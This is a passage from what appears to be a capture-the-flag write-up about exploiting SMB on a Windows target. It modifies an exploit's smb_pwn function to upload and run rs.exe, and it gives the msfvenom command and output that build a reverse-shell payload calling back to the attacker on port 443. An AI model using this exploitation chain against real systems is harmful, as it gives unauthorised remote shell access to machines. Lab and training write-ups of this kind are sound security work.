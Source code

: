 The exploit expects a target IP as a command line argument. Then, it exploits the target and executes the code in its `smb_pwn` function shown below.

{% highlight python linenos %}
def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()
	
	print('creating file c:\\pwned.txt on the target')
	tid2 = smbConn.connectTree('C$')
	fid2 = smbConn.createFile(tid2, '/pwned.txt')
	smbConn.closeFile(tid2, fid2)
	smbConn.disconnectTree(tid2)
	
	#smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
	#service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
	# Note: there are many methods to get shell over SMB admin session
	# a simple method to get shell (but easily to be detected by AV) is
	# executing binary generated by "msfvenom -f exe-service ..."
{% endhighlight %}

We can change the content of this function to upload and execute a reverse shell payload as demonstrated below. This code uploads and executes a file named "rs.exe". The next step is to generate this file.

{% highlight python linenos %}
def smb_pwn(conn, arch):
    smbConn = conn.get_smbconnection()
    smb_send_file(smbConn, './rs.exe', 'C', '/rs.exe')
    service_exec(conn, r'cmd /c C:\rs.exe')
{% endhighlight %}

A reverse shell executable can be generated with [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) by executing `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 -f exe -o rs.exe`. The `-p` flag selects the payload `windows/shell_reverse_tcp` which is a payload that connects back to us on a specific port, providing us with a shell. This payload is stageless and we can thus simply listen for a connection using a netcat listener. The `LHOST` and `LPORT` parameters specifiy our IP address and the port we want the target to connect to. In our case, we choose port 443 since it is usually used for HTTPS traffic and thus traffic to this port might look less suspicious than a random port. Finally, the `-f` flag is used to specify that we want to output the payload as a [Portable Excecutable](https://en.wikipedia.org/wiki/Portable_Executable) and the `-o` flag specify the output file.
 
{% highlight none linenos %}
kali@kali:/tmp/x$ @@msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 -f exe -o rs.exe@@
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
@@@Saved as: rs.exe@@@
kali@kali:/tmp/x$
{% endhighlight %}
